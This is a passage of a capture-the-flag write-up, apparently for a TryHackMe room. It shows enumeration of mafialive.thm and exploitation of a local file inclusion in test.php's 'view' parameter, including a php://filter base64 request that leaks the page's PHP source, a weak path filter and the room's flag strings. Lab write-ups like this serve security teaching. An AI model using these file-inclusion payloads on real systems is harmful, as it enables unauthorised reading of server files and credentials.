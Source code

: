 When we access `mafialive.thm` we get

```
UNDER DEVELOPMENT
thm{f0und_th3_r1ght_h0st_n4m3} 
```

Now we enumerate again with gobuster

There is a `/robots.txt` file with

```
User-agent: *
Disallow: /test.php
```

Which is a page containing a button with a local file inclusion !

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
            </div>
</body>

</html>
```



We can play with the `view` query parameter to browse files on the server
Seems like there is some kind of protection. If we simply browse `mafialive.thm/test.php?view=/etc/passwd` we get `Sorry, Thats not allowed ` 

We can read the code of `test.php` using `php filters` 

````
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php 
````

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
```